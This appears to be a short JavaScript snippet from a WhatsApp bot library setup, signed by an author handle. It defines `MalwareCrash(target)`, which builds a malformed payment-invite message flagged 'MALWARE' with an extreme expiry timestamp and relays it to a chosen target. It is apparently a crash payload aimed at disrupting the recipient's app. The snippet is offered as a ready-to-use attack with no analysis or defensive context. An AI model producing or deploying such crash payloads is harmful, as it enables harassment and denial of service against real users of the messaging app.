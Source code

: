 async function MalwareCrash(target) {
  const paymentMessage = {
    paymentInviteMessage: {
      serviceType: "MALWARE",
      expiryTimestamp: Date.now() + 1344038400000,
    }
  };

  await sock.relayMessage(target, paymentMessage, { participant: { jid: target }
  });
}
© KuzeXiter
